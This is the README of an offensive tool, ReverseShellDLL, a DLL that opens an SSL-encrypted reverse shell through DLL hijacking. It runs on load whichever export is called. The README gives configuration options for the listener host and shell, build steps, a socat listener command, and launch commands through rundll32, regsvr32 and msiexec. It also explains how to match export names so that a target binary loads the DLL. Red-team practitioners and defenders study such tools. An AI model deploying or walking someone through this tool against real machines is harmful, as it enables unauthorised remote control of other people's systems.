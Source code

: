 ReverseShellDLL
===============

Main Features
-------------
1. Universal DLL Hijack - ReverseShellDLL uses the DLL_PROCESS_ATTACH notification to ensure that the reverse shell is executed regardless of the export called. When the reverse shell exits, the process is gracefully terminated, hence the "export not found" error message will never show. 
2. SSL Encryption - ReverseShellDLL uses OpenSSL library to perform the encryption.
3. Statically Linked - ReverseShellDLL will run on all recent Windows versions out of the box without need for .NET framework or Microsoft C Runtime library to be installed.

![image](https://limbenjamin.com/media/reverseshelldll.png)

Configuration
-------------
```
domain 	- Domain/IP Address where listener is running
port 	- Port where listener is running
process - Shell to Execute (i.e. cmd.exe, powershell.exe, bash.exe)
exitCmd	- Typing this Cmd will cause the program to terminate


bufferSize (bytes) / delayWait (millisecs)
- High bufferSize and high delayWait will result in huge chunks of output to be buffered and sent at one time.
- Low bufferSize and low delayWait will result in "smooth" terminal experience at the expense of more small packets.  

* Some binaries verify that exports match before loading DLLs. You might have to change the export names in ReverseShellDLL.cpp to match the target hijack binary.

```

Compilation Instructions
------------------------
1. Install OpenSSL. I used the version from [https://slproweb.com/products/Win32OpenSSL.html](https://slproweb.com/products/Win32OpenSSL.html). Installation path is `C:\Program Files\OpenSSL-Win64`. Make sure to select the option to copy DLL to system folder during installation. Otherwise, you may have to tweak the Project Properties to get it to compile.
2. Git clone repository
3. Configure as necessary
4. Build binary

Running
-------
1. Generate SSL cert on listener machine
```shell
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
cat key.pem cert.pem > test.pem
```
2. Start listener. I have success with socat 1.7.3.2 and later. Earlier versions might have issues with protocol negotiation. If using bash, removing crnl from socat command line.
```shell
socat openssl-listen:1443,reuseaddr,cert=test.pem,verify=0,fork,crnl -
```
3. Deploy DLL in appropriate hijack location. If necessary, it can also be started via rundll32, regserver32 or other LOLBINs.
```shell
rundll32.exe ReverseShellDLL.dll,UniversalSoWhatEverYouTypeHereWillWork
rundll32.exe ReverseShellDLL.dll,CoCreateInstance
regsvr32.exe ReverseShellDLL.dll
msiexec /y "C:\path\to\dll\ReverseShellDLL.dll"
```



